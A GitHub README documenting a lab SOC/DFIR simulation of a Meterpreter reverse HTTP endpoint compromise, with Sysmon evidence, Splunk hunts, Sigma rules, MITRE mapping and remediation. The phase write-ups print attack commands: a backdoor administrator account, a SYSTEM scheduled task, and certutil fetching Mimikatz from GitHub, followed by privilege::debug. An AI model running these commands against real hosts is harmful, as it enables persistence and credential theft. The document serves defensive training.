





# 🛡️ SOC Threat Detection & DFIR Investigation Simulation
### Controlled Endpoint Compromise, Reverse HTTP C2, Persistence & Credential Access

[](https://www.splunk.com/)
[](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
[](https://attack.mitre.org/)
[](https://github.com/SigmaHQ/sigma)
[](./simulation_guide/attack_walkthrough.md)

---

## 📑 Executive Summary

This project delivers an enterprise-grade **SOC Threat Detection, Telemetry Correlation, and Digital Forensics & Incident Response (DFIR) Investigation**. The simulation models an end-to-end, controlled endpoint compromise executed inside a dedicated virtualized security operations laboratory. 

The attack scenario begins with social engineering delivery via Telegram Web, progresses through user-assisted payload execution, establishes command-and-control (C2) over HTTP, performs host and domain reconnaissance, establishes dual-layer persistence (local administrator account and SYSTEM-level scheduled task), executes defense evasion cleanup, stages a secondary credential dumper using the Windows LOLBin `certutil.exe`, and initializes privileged credential-access operations using Mimikatz (`privilege::debug`).

Every phase of the attack lifecycle was captured using advanced endpoint telemetry (**Microsoft Sysmon v14+** and **Windows Security Auditing**), forwarded in real time via the **Splunk Universal Forwarder**, centralized in **Splunk Enterprise**, detected using custom **Sigma Rules**, hunted with specialized **Splunk Processing Language (SPL)** searches, and systematically mapped across the **MITRE ATT&CK Framework**.

```
[ Telegram Lure ] ──> [ FreeClude.exe Execution ] ──> [ Meterpreter Reverse HTTP C2 ]
                             │                                     │
                             ▼                                     ▼
                [ Host & User Discovery ]             [ Local Admin Account Persistence ]
                             │                                     │
                             ▼                                     ▼
             [ SYSTEM Scheduled Task Persistence ]   ──>   [ Account Cleanup (Evasion) ]
                             │                                     │
                             ▼                                     ▼
           [ certutil Ingress Tool Transfer ]         ──>   [ Mimikatz privilege::debug ]
```

---

## 📌 Repository Assets & Artifacts

- 📄 **Original Docx Report**: [`docs/Splunk-SOC-Investigation-(1)-Report.docx`](docs/Splunk-SOC-Investigation-(1)-Report.docx)
- 🗺️ **Interactive MITRE ATT&CK Navigator Layer**: [`docs/mitre_attack_navigator_layer.json`](docs/mitre_attack_navigator_layer.json)
- 🛡️ **Production-Ready Sigma Rules**: [`detections/sigma/`](detections/sigma/)
- 🔎 **Splunk SPL Hunting Queries**: [`detections/splunk_spl/`](detections/splunk_spl/)
- 📊 **Indicators of Compromise (IOCs)**: [`artifacts/iocs.csv`](artifacts/iocs.csv)
- 📋 **Telemetry & Audit Matrix**: [`artifacts/telemetry_matrix.csv`](artifacts/telemetry_matrix.csv)
- 🎯 **Adversary Emulation Walkthrough**: [`simulation_guide/attack_walkthrough.md`](simulation_guide/attack_walkthrough.md)

---

## 🏗️ 01. Lab Architecture & Forensic Environment

The simulation operates across a tri-system network designed for realistic enterprise attack surface emulation and centralized SIEM ingestion:


*Figure 1: Telemetry pipeline and network architecture connecting Attacker, Victim Endpoint, and Splunk SIEM.*

### Host Specifications & Network Roles

| Host Role | Hostname / OS | IP Address | Subnet / Mask | Key Responsibilities & Installed Software |
|:---|:---|:---|:---|:---|
| **Attacker System** | `kali-linux` | `192.168.110.141` | `192.168.110.0/24` | Metasploit Framework 6.x, `msfvenom` x64 HTTP handler, Python staging HTTP server |
| **Victim Endpoint** | `SH-WIN10` (Win 10 Pro) | `192.168.110.156` | `192.168.110.0/24` | Microsoft Sysmon v14.1 (SwiftOnSecurity modular config), Windows Security Audit Policies, Splunk Universal Forwarder |
| **SIEM Platform** | Windows 11 Enterprise | `192.168.110.x` | `192.168.110.0/24` | Splunk Enterprise 9.x/10.x (Splunk Web on port `8000`, Forwarder receiver on TCP `9997`) |

### Forensic Collection Stack
1. **Microsoft Sysmon (`Microsoft-Windows-Sysmon/Operational`)**: High-fidelity logging of process creation, process lineage, hash generation (MD5, SHA256, IMPHASH), TCP/UDP connections, image loads, driver loads, file stream modifications (Zone.Identifier), and cross-process handle access.
2. **Windows Security Event Log (`Security`)**: Advanced audit policies capturing process creation with full command lines (Event ID `4688`), local user creation (`4720`), local security group modifications (`4732`), account deletions (`4726`), and scheduled task registrations (`4698`).
3. **Splunk Universal Forwarder**: Lightweight agent streaming active event channels securely to Splunk Enterprise for real-time indexing, search, correlation, and alerting.

---

## 🗺️ 02. Senior Attack & Detection Map


*Figure 2: Comprehensive lifecycle mapping comparing attacker-side actions directly with victim artifacts, Sysmon event IDs, and Splunk detection pivots.*

### Scenario Execution Blueprint

| Phase | Phase Name | Attacker Technique | Victim Artifact | Primary Detection Pivot |
|:---:|:---|:---|:---|:---|
| **01** | **Initial Access** | Phishing download via Telegram Web | Downloaded file, Mark-of-the-Web (ZoneId=3) | Sysmon Event ID 15 (`Zone.Identifier`) |
| **02** | **Execution** | User launches `FreeClude.exe` | High integrity process spawn under Explorer | Sysmon Event ID 1 & 7, WinSec 4688 |
| **03** | **Command & Control** | Meterpreter reverse HTTP callback | Outbound TCP socket to `192.168.110.141:33398` | Sysmon Event ID 3 (`ProcessGuid` correlation) |
| **04** | **Discovery** | `whoami`, `hostname`, `systeminfo` | `cmd.exe` spawning native enumeration binaries | Sysmon Event ID 1 (Process Lineage) |
| **05A** | **Persistence (Account)** | `net user ClaudeBackdoor /add` | User account added to local Administrators | Sysmon 1, WinSec Events 4720 & 4732 |
| **05B** | **Persistence (Task)** | `schtasks /create ... /ru SYSTEM` | Scheduled task registered for logon execution | Sysmon 1 & 7, WinSec Event 4698 |
| **05C** | **Defense Evasion** | `net user ClaudeBackdoor /delete` | Temporary account purged from SAM database | Sysmon 1, WinSec Event 4726 |
| **06** | **Tool Transfer** | `certutil -urlcache -split -f` | Staged Mimikatz binary dropped to Downloads | Sysmon Event IDs 1, 3, 11 |
| **07** | **Credential Access** | `GetClaude.exe` running `privilege::debug` | Mimikatz execution with SeDebugPrivilege enabled | Sysmon 1, Sysmon 10 (Targeting LSASS) |

---

## 🔬 03. Technical Forensics & Investigation Deep-Dive

### Phase 1: Phishing Delivery & Mark-of-the-Web Artifacts
- **ATT&CK Technique**: `T1566.003` (Spearphishing via Service) & `T1204.002` (Malicious File Execution)
- **Forensic Evidence**: The payload `FreeClude.exe` entered the environment via Telegram Web. Windows NTFS Alternate Data Streams (ADS) automatically tagged the file with the Mark-of-the-Web identifier.
- **Sysmon Event ID 15 Record**:
  - `UtcTime`: `2026-09-24 13:09:57.557`
  - `TargetFilename`: `C:\Users\saada\Downloads\Unconfirmed 635978.crdownload:Zone.Identifier`
  - `ZoneId`: `3` (URLZONE_INTERNET)
  - `HostUrl`: `https://web.telegram.org/`

---

### Phase 2: User Execution & Initial Endpoint Foothold
- **ATT&CK Technique**: `T1204.002` (User Execution: Malicious File)
- **Forensic Evidence**: The victim user `SH-WIN10\saad` executed `FreeClude.exe` directly from the Downloads directory with elevated privileges (High Integrity Level). Sysmon recorded process initialization and binary module loading.
- **Sysmon Event ID 1 (Process Create)**:
  - `UtcTime`: `2026-09-24 13:10:36.376`
  - `ProcessId`: `5568`
  - `ProcessGuid`: `{4736c562-214c-6ab5-f802-000000001c00}`
  - `Image`: `C:\Users\saada\Downloads\FreeClude.exe`
  - `CommandLine`: `"C:\Users\saada\Downloads\FreeClude.exe"`
  - `ParentImage`: `C:\Windows\explorer.exe` (PID `5092`)
  - `IntegrityLevel`: `High`
  - `SHA256`: `7673C78000C1DF5FDD6C863C494F2D00FC961C947F2B8ABD0E7BCC212765EBF1`
- **Sysmon Event ID 7 (Image Loaded)**:
  - Confirmed unsigned binary execution (`Signed: false`, `SignatureStatus: Unavailable`).

---

### Phase 3: Meterpreter Reverse HTTP Command & Control
- **ATT&CK Technique**: `T1071.001` (Application Layer Protocol: Web Protocols)
- **Forensic Evidence**: Upon execution, `FreeClude.exe` immediately initiated an outbound TCP connection to the Metasploit multi-handler listener running on the Kali Linux host.
- **Network Telemetry Details (Sysmon Event ID 3)**:
  - `SourceIp`: `192.168.110.156` (Port: `55196`)
  - `DestinationIp`: `192.168.110.141` (Port: `33398`)
  - `Protocol`: `TCP`
  - `Initiating Process`: `C:\Users\saada\Downloads\FreeClude.exe`
  - `Correlating ProcessGuid`: `{4736c562-214c-6ab5-f802-000000001c00}`

---

### Phase 4: Post-Compromise Discovery & Process Lineage


*Figure 3: Reconstructing child command execution and discovery tree using ProcessGuid pivoting.*

- **ATT&CK Techniques**: `T1059.003` (Windows Command Shell), `T1033` (System Owner/User Discovery), `T1082` (System Information Discovery)
- **Forensic Reconstruction**:
  1. `FreeClude.exe` (PID `5568`) spawned `C:\Windows\System32\cmd.exe` (PID `6316`) as an interactive command channel.
  2. The attacker executed host reconnaissance utilities in rapid succession:
     - `whoami.exe` (Returned: `SH-WIN10\saad`)
     - `hostname.exe` (Returned: `SH-WIN10`)
     - `systeminfo.exe` (Enumerated OS hotfixes, memory architecture, network adapters)
- **Defensive Significance**: In production SOC environments, `cmd.exe` spawned from binaries executing out of user-writable directories (`C:\Users\*\Downloads\`, `C:\Users\*\AppData\`) represents an immediate high-priority indicator of compromise.

---

### Phase 5: Persistence, Privilege Elevation & Defense Evasion

#### Phase 5A: Local Rogue Account Creation (`T1136.001` & `T1098.007`)
- The attacker used `net.exe` (PID `9752`, `ProcessGuid: {4736c562-2238-6ab5-2803-000000001c00}`) to create a backdoor account:
  ```cmd
  net user ClaudeBackdoor Password123! /add
  net localgroup Administrators ClaudeBackdoor /add
  ```
- **Evidence Sources**:
  - Sysmon Event ID 1: Command line execution of `net.exe`.
  - Windows Security Event ID `4720`: A user account was created (`TargetUserName: ClaudeBackdoor`).
  - Windows Security Event ID `4732`: A member was added to a local security group (`TargetUserName: ClaudeBackdoor`, `GroupName: Administrators`).

#### Phase 5B: Scheduled Task Persistence (`T1053.005`)
- To guarantee persistent execution without requiring user interaction, the attacker registered a scheduled task:
  ```cmd
  schtasks /create /tn "GetClaudeBackdoor" /tr "C:\Users\saada\Downloads\FreeClude.exe" /sc onlogon /ru SYSTEM
  ```
- **Evidence Sources**:
  - Sysmon Event ID 1: Execution of `schtasks.exe` with `/ru SYSTEM`.
  - Windows Security Event ID `4698`: A scheduled task was created (`TaskName: GetClaudeBackdoor`).
  - Sysmon Event ID 7: `taskhostw.exe` loading `taskschd.dll` under `NT AUTHORITY\SYSTEM`.

#### Phase 5C: Defense Evasion Cleanup (`T1070.004`)
- Following the successful configuration of the scheduled task, the attacker attempted to remove user-facing evidence:
  ```cmd
  net user ClaudeBackdoor /delete
  ```
- **Evidence Sources**:
  - Windows Security Event ID `4726`: A user account was deleted (`TargetUserName: ClaudeBackdoor`).

---

### Phase 6: Ingress Tool Transfer via LOLBin `certutil` (`T1105`)
- **Forensic Evidence**: The attacker utilized `certutil.exe` to pull a secondary credential-access tool from a remote repository:
  - `ProcessId`: `1072`
  - `ProcessGuid`: `{4736c562-22ab-6ab5-3a03-000000001c00}`
  - `CommandLine`:
    ```cmd
    certutil -urlcache -split -f "https://github.com/ParrotSec/mimikatz/raw/refs/heads/master/x64/mimikatz.exe" C:\Users\saada\Downloads\FreeClude.exe
    ```
- **Associated Evidence**:
  - Sysmon Event ID 3: Network connection from `certutil.exe` to external web infrastructure.
  - Sysmon Event ID 11: File drop into `C:\Users\saada\Downloads\` staging `GetClaude.exe`.

---

### Phase 7: Credential Access Preparation (`T1003` & `T1003.001`)


*Figure 4: Forensic pivoting and indicator correlation model across host, network, and memory domains.*

- **Forensic Evidence**: The operator executed the renamed Mimikatz executable `GetClaude.exe` and requested debug privilege elevation:
  - `Image`: `C:\Users\saada\Downloads\GetClaude.exe`
  - `Command`: `privilege::debug`
  - `Console Output`: `Privilege '20' OK`
- **Analytical Assessment (Confirmed vs Conditional)**:
  - **CONFIRMED**: `T1003` (OS Credential Dumping tool invocation and debug privilege enablement).
  - **CONDITIONAL**: `T1003.001` (LSASS Memory dumping). While the adversary successfully obtained `SeDebugPrivilege`, actual memory extraction requires observing Sysmon Event ID 10 (Process Access targeting `lsass.exe` with `GrantedAccess: 0x1010` or `0x1FFFFF`) or explicit execution of `sekurlsa::logonpasswords`.

---

## 🔎 04. Splunk Processing Language (SPL) Hunting Playbook

All production SPL queries are located in [`detections/splunk_spl/`](detections/splunk_spl/).

### 1. Payload Execution & Suspicious Explorer Children
```spl
index=* host="Sh-Win10" EventCode=1 (Image="*\FreeClude.exe" OR ParentImage="*\explorer.exe")
| eval ProcessPath=Image, Parent=ParentImage
| table _time host User Image ParentImage CommandLine IntegrityLevel ProcessGuid ProcessId SHA256
| sort - _time
```

### 2. Correlating Payload Execution with Reverse C2 Sockets
```spl
index=* host="Sh-Win10" (EventCode=1 OR EventCode=3)
| search (Image="*\FreeClude.exe" OR DestinationIp="192.168.110.141")
| eval Connection=SourceIp.":".SourcePort." -> ".DestinationIp.":".DestinationPort
| table _time EventCode host User Image ProcessGuid ProcessId Protocol Connection DestinationIp DestinationPort
| sort _time
```

### 3. Post-Compromise Child Shell & Discovery Audit
```spl
index=* host="Sh-Win10" EventCode=1 (ParentImage="*\FreeClude.exe" OR ParentImage="*\cmd.exe")
| search Image="*\cmd.exe" OR Image="*\whoami.exe" OR Image="*\hostname.exe" OR Image="*\systeminfo.exe"
| table _time host User ParentImage Image CommandLine ProcessGuid ProcessId IntegrityLevel
| sort _time
```

### 4. Rogue Account Creation & Administrative Group Tampering
```spl
(index=* host="Sh-Win10" EventCode=1 Image="*\net.exe" (CommandLine="*user*" OR CommandLine="*localgroup*"))
OR
(index=* host="Sh-Win10" EventCode IN (4720, 4732, 4726))
| eval Action=case(
    EventCode=1 AND like(CommandLine, "%/add%"), "Process: Net Account/Group Add",
    EventCode=1 AND like(CommandLine, "%/del%"), "Process: Net Account Cleanup",
    EventCode=4720, "SecLog: User Account Created",
    EventCode=4732, "SecLog: Added to Administrators Group",
    EventCode=4726, "SecLog: User Account Deleted",
    1=1, "Other"
)
| table _time EventCode Action User TargetUserName MemberName GroupName CommandLine ProcessGuid
| sort _time
```

### 5. Scheduled Task Persistence with SYSTEM Elevation
```spl
(index=* host="Sh-Win10" EventCode=1 Image="*\schtasks.exe" CommandLine="*/create*")
OR
(index=* host="Sh-Win10" EventCode=4698)
OR
(index=* host="Sh-Win10" EventCode=7 Image="*\taskhostw.exe" ImageLoaded="*\taskschd.dll")
| table _time EventCode host User Image TaskName CommandLine ImageLoaded ProcessGuid ProcessId
| sort _time
```

### 6. LOLBin Ingress Staging via `certutil`
```spl
index=* host="Sh-Win10" (EventCode=1 OR EventCode=3 OR EventCode=11)
| search (Image="*\certutil.exe" OR TargetFilename="*\GetClaude.exe*" OR CommandLine="*urlcache*")
| eval Detail=coalesce(CommandLine, TargetFilename, DestinationIp.":".DestinationPort)
| table _time EventCode host User Image Detail ProcessGuid ProcessId IntegrityLevel SHA256
| sort _time
```

### 7. Mimikatz Invocation & LSASS Access Hunt
```spl
index=* host="Sh-Win10" (EventCode=1 OR EventCode=10)
| search (Image="*\GetClaude.exe" OR Image="*\mimikatz.exe" OR CommandLine="*privilege*" OR TargetImage="*\lsass.exe")
| eval AccessType=case(
    EventCode=1, "Mimikatz Process Executed: ".CommandLine,
    EventCode=10, "LSASS Handle Opened (GrantedAccess: ".GrantedAccess.")",
    1=1, "Unknown"
)
| table _time EventCode host User Image TargetImage AccessType ProcessGuid ProcessId IntegrityLevel SHA256
| sort _time
```

---

## ⚙️ 05. Detection Engineering: Sigma Rules

All Sigma YAML rule files are stored in [`detections/sigma/`](detections/sigma/).

| Rule File | Rule Title | Severity | MITRE ATT&CK Mapping | Description |
|:---|:---|:---:|:---|:---|
| [`sigma_01...yml`](detections/sigma/sigma_01_suspicious_payload_child_shell.yml) | Suspicious Payload Child Command Shell | **High** | `T1059.003` | Detects `cmd.exe` spawned by untrusted binaries executing from user directories. |
| [`sigma_02...yml`](detections/sigma/sigma_02_suspicious_local_account_creation.yml) | Suspicious Local Account Creation via Net | **High** | `T1136.001` | Detects non-standard local account creation using `net.exe`. |
| [`sigma_03...yml`](detections/sigma/sigma_03_scheduled_task_system_context.yml) | Scheduled Task Creation With Elevated System Context | **High** | `T1053.005` | Detects `schtasks.exe` registering tasks to execute under `NT AUTHORITY\SYSTEM`. |
| [`sigma_04...yml`](detections/sigma/sigma_04_certutil_urlcache_file_transfer.yml) | Suspicious certutil Remote File Transfer via URLCache | **High** | `T1105` | Detects Living-off-the-Land abuse of `certutil.exe` using `/urlcache`. |
| [`sigma_05...yml`](detections/sigma/sigma_05_mimikatz_privilege_debug.yml) | Mimikatz or Debug Privilege Invocation | **Critical** | `T1003` / `T1003.001` | Detects command-line invocation of Mimikatz or `privilege::debug` syntax. |

---

## 🎯 06. MITRE ATT&CK Framework Matrix & Navigator Layer


*Figure 5: Enterprise ATT&CK matrix coverage distinguishing confirmed adversary actions from conditional stages.*

### Interactive Navigator Layer
- **Layer JSON File**: [`docs/mitre_attack_navigator_layer.json`](docs/mitre_attack_navigator_layer.json)
- **Usage**: Load the JSON file into the online [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) to view techniques, scores, and analyst comments.

### Technique Coverage Summary

| Tactic | Technique ID | Technique Name | Observation Status | Correlated Evidence |
|:---|:---|:---|:---:|:---|
| **Initial Access** | `T1566.003` | Spearphishing via Service | **CONFIRMED** | Telegram Web referrer in Sysmon Event 15 Zone.Identifier |
| **Execution** | `T1204.002` | User Execution: Malicious File | **CONFIRMED** | User launch of `FreeClude.exe` from Downloads (Sysmon 1) |
| **Execution** | `T1059.003` | Windows Command Shell | **CONFIRMED** | `cmd.exe` spawned as child of Meterpreter payload |
| **Command & Control** | `T1071.001` | Web Protocols | **CONFIRMED** | Reverse HTTP socket to `192.168.110.141:33398` (Sysmon 3) |
| **Discovery** | `T1033` | System Owner/User Discovery | **CONFIRMED** | Execution of `whoami.exe` (Sysmon 1) |
| **Discovery** | `T1082` | System Information Discovery | **CONFIRMED** | Execution of `hostname.exe` and `systeminfo.exe` (Sysmon 1) |
| **Persistence** | `T1136.001` | Create Account: Local Account | **CONFIRMED** | `net user ClaudeBackdoor /add` (Sysmon 1, WinSec 4720) |
| **Persistence** | `T1098.007` | Additional Local or Domain Groups | **CONFIRMED** | `net localgroup Administrators ClaudeBackdoor /add` (Sec 4732) |
| **Persistence** | `T1053.005` | Scheduled Task | **CONFIRMED** | `schtasks /create ... /ru SYSTEM` (Sysmon 1/7, Sec 4698) |
| **Defense Evasion** | `T1070.004` | File / Indicator Removal | **CONFIRMED** | Cleanup deletion of `ClaudeBackdoor` account (WinSec 4726) |
| **Command & Control** | `T1105` | Ingress Tool Transfer | **CONFIRMED** | Remote fetch of Mimikatz via `certutil -urlcache` (Sysmon 1/3/11) |
| **Credential Access** | `T1003` | OS Credential Dumping | **CONFIRMED** | `GetClaude.exe` executed, `privilege::debug` returned OK (Sysmon 1) |
| **Credential Access** | `T1003.001` | LSASS Memory | **CONDITIONAL** | Privilege preparation observed; requires LSASS access validation |

---

## 📊 07. Indicators of Compromise (IOC) Matrix

A machine-readable CSV version is available at [`artifacts/iocs.csv`](artifacts/iocs.csv).

| Indicator Type | Value | Context / Phase | Detection & Containment Action |
|:---|:---|:---|:---|
| **IPv4 Address** | `192.168.110.141` | Attacker C2 & Payload Staging Host | Block on perimeter firewalls; terminate active sockets |
| **Port / Service** | `33398 / TCP` | Meterpreter Reverse HTTP Listener Port | Block outbound traffic on non-standard high ports |
| **SHA256 Hash** | `7673C78000C1DF5FDD6C863C494F2D00FC961C947F2B8ABD0E7BCC212765EBF1` | `FreeClude.exe` Staged Binary | Block in EDR / AV; submit to VT / threat intelligence |
| **File Path** | `C:\Users\saada\Downloads\FreeClude.exe` | Initial Dropped Payload | Quarantine file; initiate endpoint memory dump |
| **File Path** | `C:\Users\saada\Downloads\GetClaude.exe` | Dropped Mimikatz Credential Tool | Quarantine file; inspect system for dumped credentials |
| **NTFS Stream** | `Unconfirmed 635978.crdownload:Zone.Identifier` | Telegram Web Mark-of-the-Web | Hunt for similar browser download streams |
| **Domain / URL** | `https://web.telegram.org/` | Initial Phishing Delivery Vector | Review enterprise web proxy logs for user chat access |
| **Domain / URL** | `https://github.com/ParrotSec/mimikatz/raw/...` | Secondary Tool Staging URL | Add URL and repository domains to proxy blocklists |
| **User Account** | `ClaudeBackdoor` | Rogue Local Administrator Account | Disable account, review login history, delete account |
| **Scheduled Task**| `GetClaudeBackdoor` | SYSTEM-Level Persistence Mechanism | Unregister task via `schtasks /delete /tn GetClaudeBackdoor /f` |
| **Process GUID** | `{4736c562-214c-6ab5-f802-000000001c00}` | `FreeClude.exe` Process Identifier | Terminate process tree; extract parent/child timeline |

---

## 🛡️ 08. Containment, Remediation & Defensive Hardening

### Immediate Incident Response Steps
1. **Network Containment**: Isolate `SH-WIN10` (`192.168.110.156`) from the enterprise network using EDR network isolation to sever the active reverse HTTP session.
2. **Process Termination**: Kill `FreeClude.exe` (PID `5568`), child `cmd.exe` (PID `6316`), and `GetClaude.exe`.
3. **Persistence Elimination**:
   - Verify deletion of `ClaudeBackdoor` user account from the SAM database.
   - Remove scheduled task: `schtasks /delete /tn "GetClaudeBackdoor" /f`.
4. **Credential Revocation**: Force a global password reset for `SH-WIN10\saad` and all domain/local administrators who recently authenticated to the host.

### Strategic Endpoint Hardening
1. **Enable LSA Protection (`RunAsPPL`)**:
   - Enforce RunAsPPL via registry to block non-protected processes from reading LSASS memory:
     ```reg
     reg add "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL /t REG_DWORD /d 1 /f
     ```
2. **Attack Surface Reduction (ASR) Rules**:
   - Block executable files from running unless they meet a prevalence, age, or trusted list criterion.
   - Block process creations originating from PSExec, WMI, and untrusted shell commands.
3. **AppLocker / Windows Defender Application Control (WDAC)**:
   - Enforce executable whitelisting blocking binary execution from user-writable directories (`%TEMP%`, `%APPDATA%`, `Downloads`).
   - Implement LOLBin execution restrictions preventing `certutil.exe` from performing network downloads.
4. **Credential Guard**:
   - Enable Windows Defender Credential Guard using virtualization-based security (VBS) to isolate NTLM and Kerberos credentials from memory scraping tools like Mimikatz.

---

## 📚 09. References & Authoritative Sources

- [1] [MITRE ATT&CK — Enterprise Matrix v14](https://attack.mitre.org/)
- [2] [MITRE ATT&CK — T1566.003: Spearphishing via Service](https://attack.mitre.org/techniques/T1566/003/)
- [3] [MITRE ATT&CK — T1204.002: User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002/)
- [4] [MITRE ATT&CK — T1071.001: Web Protocols](https://attack.mitre.org/techniques/T1071/001/)
